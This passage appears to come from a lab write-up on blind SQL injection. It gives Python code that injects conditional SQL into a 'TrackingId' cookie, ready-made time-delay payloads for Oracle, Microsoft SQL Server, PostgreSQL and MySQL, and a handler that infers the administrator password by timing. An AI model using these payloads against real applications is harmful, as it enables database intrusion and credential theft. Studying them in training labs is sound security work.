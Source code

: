 ```python
  req.inject('cookie', 'TrackingId', sql)
  resp = req.get()
  if not resp.status_code in [200, 500]:
    print(f"HTTP Request failed with code {resp.status_code}")
    exit(1)

  return resp.status_code == 500
```

Note: the handler methods return True is HTTP error code 500 is returned. This is how the lab application responds to the induced error condition (other applications may respond differently)

Note: _the __\_\_main\_\___ code incorporating the password length and character iteration logic remains the same_

Full source code:

- [scripts/helper.py](scripts/helper.py)
- [scripts/blind_sqli_cond_error.py](scripts/blind_sqli_cond_error.py)

## Blind SQL injection with timer conditional response

See [Timing condition](#timing-based) description for more details.

[scripts/helper.py](scripts/helper.py)

First, create the timing conditional SQL statement that includes the original condition based SQL statement:

```python
def sqli_cond_timeout(sql_main_conditional, db_type, timeout):
  sql = None
  if db_type == 'Oracle':
    sql = f"' AND (SELECT CASE WHEN ({sql_main_conditional}) THEN dbms_pipe.receive_message(('a'),{timeout}) ELSE 'a' END FROM dual)='a"
  elif db_type == 'Microsoft':
    sql = f"' AND (SELECT CASE WHEN ({sql_main_conditional}) THEN WAITFOR DELAY '0:0:{timeout}' ELSE 'a' END)='a"
  elif db_type == 'PostgreSQL':
    # note - needed to do string concatentation to get the pg_sleep call to work 'a'||pg_sleep(10)
    # base command: "' AND (SELECT 'a'||pg_sleep(2)) = 'a"
    sql = f"' AND 'a' = (SELECT CASE WHEN ({sql_main_conditional}) THEN 'a'||pg_sleep({timeout}) ELSE 'b'||pg_sleep(0) END)--"
  elif db_type == 'MySQL':
    sql = f"SELECT IF({sql_main_conditional},(SELECT SLEEP({timeout})),'a')"

  return sql
```

Second, create 2 new handlers that utilise timing conditions (injection code and timing based conditional statement):

```python
TIMEOUT = 5

def password_size_handler(val, op, pos):
  sql_passwd_inj = "LENGTH((SELECT password FROM users WHERE username = 'administrator')) {} '{}'".format(op, val)
  sql = helper.sqli_cond_timeout(sql_passwd_inj, 'PostgreSQL', TIMEOUT)
  req.inject('cookie', 'TrackingId', sql)
  resp = req.get()
  if not resp.status_code in [200, 500]:
    print(f"HTTP Request failed with code {resp.status_code}")
    exit(1)

  success = resp.elapsed.seconds in range(TIMEOUT - 2, TIMEOUT + 2)
  
```